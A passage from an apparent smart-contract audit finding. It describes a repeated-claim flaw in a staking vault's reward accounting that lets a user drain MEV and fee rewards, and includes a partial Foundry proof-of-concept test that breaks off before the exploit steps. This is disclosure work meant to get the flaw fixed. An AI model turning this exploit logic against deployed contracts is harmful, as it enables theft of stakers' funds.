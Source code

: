 This means the first time a user will claim their rewards they will get the correct amount and the correct value will be stored in the `claimed[_user][_token]`.  When extra ETH is recieved from the MEV and fees rewards and the user claims their reward again, the claimed amount will only reflect the last claimed amount. As a result they can then repeatedly claim untill the MEV and Fee vault is almost depleted.

### Proof of Concept

Following modification to the existing `StakingFundsVault.t.sol` will provide a test to demonstrate the issue:

```diff
diff --git a/test/foundry/StakingFundsVault.t.sol b/test/foundry/StakingFundsVault.t.sol
index 53b4ce0..4db8fc8 100644
--- a/test/foundry/StakingFundsVault.t.sol
+++ b/test/foundry/StakingFundsVault.t.sol
@@ -4,6 +4,7 @@ import "forge-std/console.sol";
 
 import { StakingFundsVault } from "../../contracts/liquid-staking/StakingFundsVault.sol";
 import { LPToken } from "../../contracts/liquid-staking/LPToken.sol";
+import { SyndicateRewardsProcessor} from "../../contracts/liquid-staking/SyndicateRewardsProcessor.sol";
 import {
     TestUtils,
     MockLSDNFactory,
@@ -417,4 +418,73 @@ contract StakingFundsVaultTest is TestUtils {
         assertEq(vault.totalClaimed(), rewardsAmount);
         assertEq(vault.totalRewardsReceived(), rewardsAmount);
     }
+
+    function testRepetitiveClaim() public {
+        // register BLS key with the network
+        registerSingleBLSPubKey(accountTwo, blsPubKeyFour, accountFive);
+
+        vm.label(accountOne, "accountOne");
+        vm.label(accountTwo, "accountTwo");
+        // Do a deposit of 4 ETH for bls pub key four in the fees and mev pool
+        depositETH(accountTwo, maxStakingAmountPerValidator / 2, getUint256ArrayFromValues(maxStakingAmountPerValidator / 2), getBytesArrayFromBytes(blsPubKeyFour));
+        depositETH(accountOne, maxStakingAmountPerValidator / 2, getUint256ArrayFromValues(maxStakingAmountPerValidator / 2), getBytesArrayFromBytes(blsPubKeyFour));
+
+        // Do a deposit of 24 ETH for savETH pool
+        liquidStakingManager.savETHVault().depositETHForStaking{value: 24 ether}(blsPubKeyFour, 24 ether);
+
+        stakeAndMintDerivativesSingleKey(blsPubKeyFour);
+
+        LPToken lpTokenBLSPubKeyFour = vault.lpTokenForKnot(blsPubKeyFour);
+
+        vm.warp(block.timestamp + 3 hours);
+
+        // Deal ETH to the staking funds vault
+        uint256 rewardsAmount = 1.2 ether;
+        console.log("depositing %s wei into the vault.\n", rewardsAmount);
+        vm.deal(address(vault), rewardsAmount);
+        assertEq(address(vault).balance, rewardsAmount);
+        assertEq(vault.previewAccumulatedETH(accountOne, vault.lpTokenForKnot(blsPubKeyFour)), rewardsAmount / 2);
+        assertEq(vault.previewAccumulatedETH(accountTwo, vault.lpTokenForKnot(blsPubKeyFour)), rewardsAmount / 2);
+
+        logAccounts();
+
```
